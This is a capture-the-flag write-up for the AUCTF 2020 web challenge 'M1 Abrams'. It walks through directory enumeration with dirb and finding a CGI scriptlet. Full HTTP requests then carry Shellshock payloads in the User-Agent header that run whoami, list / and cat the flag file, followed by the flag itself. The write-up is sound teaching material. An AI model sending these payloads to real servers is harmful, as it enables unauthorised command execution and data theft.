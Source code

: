 # AUCTF 2020 – M1 Abrams

* **Category:** web
* **Points:** 977

## Challenge

> http://challenges.auctf.com:30024
> 
> We built up this server, and our security team seems pretty mad about it. See if you can find out why.
> 
> Author: shinigami

## Solution

Connecting to the URL you will find a default Apache2 installation page. The version of the server is `Apache/2.4.29 (Ubuntu)`.

Performing an enumeration will let you to discover the following.

```
user@machine:~$ sudo dirb http://challenges.auctf.com:30024/ /usr/share/dirb/wordlists/vulns/apache.txt -x /usr/share/dirb/wordlists/extensions_common.txt -w

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Apr  5 11:32:26 2020
URL_BASE: http://challenges.auctf.com:30024/
WORDLIST_FILES: /usr/share/dirb/wordlists/vulns/apache.txt
OPTION: Not Stopping on warning messages
EXTENSIONS_FILE: /usr/share/dirb/wordlists/extensions_common.txt | ()(.asp)(.aspx)(.bat)(.c)(.cfm)(.cgi)(.com)(.dll)(.exe)(.htm)(.html)(.inc)(.jhtml)(.jsa)(.jsp)(.log)(.mdb)(.nsf)(.php)(.phtml)(.pl)(.reg)(.sh)(.shtml)(.sql)(.txt)(.xml)(/) [NUM = 29]

-----------------

GENERATED WORDS: 30

---- Scanning URL: http://challenges.auctf.com:30024/ ----
+ http://challenges.auctf.com:30024/cgi-bin/ (CODE:403|SIZE:288)
+ http://challenges.auctf.com:30024/icons/ (CODE:403|SIZE:288)
+ http://challenges.auctf.com:30024/index.html (CODE:200|SIZE:10918)
+ http://challenges.auctf.com:30024/server-status (CODE:403|SIZE:288)
+ http://challenges.auctf.com:30024/server-status/ (CODE:403|SIZE:288)

-----------------
END_TIME: Sun Apr  5 11:33:49 2020
DOWNLOADED: 870 - FOUND: 5
```

Analyzing into `cgi-bin/` directory will let you to discover an interesting endpoint.

```
user@machine:~$ sudo dirb http://challenges.auctf.com:30024/cgi-bin/ -w

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Apr  5 12:04:05 2020
URL_BASE: http://challenges.auctf.com:30024/cgi-bin/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://challenges.auctf.com:30024/cgi-bin/ ----
+ http://challenges.auctf.com:30024/cgi-bin/scriptlet (CODE:200|SIZE:55)

-----------------
END_TIME: Sun Apr  5 12:10:22 2020
DOWNLOADED: 4612 - FOUND: 1
```

Connecting to `http://challenges.auctf.com:30024/cgi-bin/scriptlet` will give you the following.

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The scriptlet is vulnerable to [*Shellshock*](https://en.wikipedia.org/wiki/Shellshock_(software_bug)).

```
GET /cgi-bin/scriptlet HTTP/1.1
Host: challenges.auctf.com:30024
User-Agent: () { :;};echo -e "\r\n$(/usr/bin/whoami)"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0

HTTP/1.1 200 OK
Date: Sun, 05 Apr 2020 12:16:07 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Length: 89

www-data
Content-type: text/html


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

So you can use it to enumerate the root directory to find `flag.file`.

```
GET /cgi-bin/scriptlet HTTP/1.1
Host: challenges.auctf.com:30024
User-Agent: () { :;};echo -e "\r\n$(/bin/ls /)"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0

HTTP/1.1 200 OK
Date: Sun, 05 Apr 2020 12:19:24 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Length: 175

bin
boot
dev
etc
flag.file
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
Content-type: text/html


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And then print it.

```
GET /cgi-bin/scriptlet HTTP/1.1
Host: challenges.auctf.com:30024
User-Agent: () { :;};echo -e "\r\n$(/bin/cat /flag.file)"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0

HTTP/1.1 200 OK
Date: Sun, 05 Apr 2020 12:20:01 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Length: 194

1f8b0808de36755e0003666c61672e747874004b2c4d2e49ab56c9303634
8c0fce30f08ecf358eaf72484989ace502005a5da5461b000000
Content-type: text/html


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The content of the file is the hexadecimal representation of a GZip archive (i.e. signature `1f8b08`).

This [file](flag.gz) can be re-created with an hexadecimal editor. Opening the archive you will find the `flag.txt` file with the flag.

```
auctf{$h311_Sh0K_m3_z@ddY}
```